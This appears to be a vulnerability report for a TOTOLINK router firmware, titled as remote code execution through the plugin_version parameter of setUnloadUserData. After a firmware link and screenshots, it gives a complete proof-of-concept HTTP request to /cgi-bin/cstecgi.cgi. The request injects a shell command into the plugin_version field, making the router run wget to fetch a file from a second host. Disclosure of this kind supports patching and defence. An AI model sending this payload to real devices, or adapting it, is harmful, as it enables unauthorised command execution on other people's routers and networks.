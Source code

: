 ## RCE-upgrade.so-setUnloadUserData-plugin_version
## Firmware

https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html
![image](https://github.com/user-attachments/assets/1f19d9d6-bbe6-409f-8085-a650f1d3f616)


![image](https://github.com/user-attachments/assets/6b9416f3-f2dc-42f7-9a01-b0506bbc286b)

![image](https://github.com/user-attachments/assets/4bb5278b-cb59-467b-bf9b-6116a30c0f02)
## POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.254

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 107

Origin: http://192.168.0.254

Connection: keep-alive

Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260



{"topicurl" :"setting/setUnloadUserData",

"plugin_version" : "a;wget http://192.168.0.253:8000/123.txt;a"}
```
